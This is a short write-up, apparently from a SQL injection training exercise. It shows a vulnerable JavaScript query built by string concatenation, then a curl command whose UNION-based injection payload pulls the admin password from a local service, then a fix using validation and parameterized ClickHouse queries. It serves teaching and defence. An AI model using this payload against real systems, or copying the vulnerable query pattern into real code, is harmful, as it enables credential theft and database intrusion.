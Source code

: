 # sqli101 - part 2

## Vulnerability
Unescaped user inputs used in the following SQL query.
```js
db.testQuery("SELECT username\nFROM user\nWHERE username LIKE '%" + search + "%'")
```

## Exploitation
```bash
curl --request POST \
  --url http://localhost:80/user_lookup \
  --header 'Content-Type: application/json' \
  --data '{
    "search": "'\'' AND 1=2 UNION ALL SELECT password FROM user WHERE username = '\''admin'\'' OR '\''1'\''='\''"
}'
```

## Fix
User inputs should be validated (can use a regex to restrict to a subset of ascii characters).
User inputs can also be escaped.

It is also possible to use query parameterized queries. (cf [ClickHouse documentation](https://clickhouse.com/docs/en/interfaces/cli#cli-queries-with-parameters)).
Implementing that solution changes two files, `routes/index.js` and `database.js`

```js
db.testQuery("SELECT username\nFROM user\nWHERE username LIKE '%{search:String}%'", {'search': search})

async testQuery(query, parameters) {
    return this.clickhouse.query(query, {'params': parameters}).toPromise();
}
```
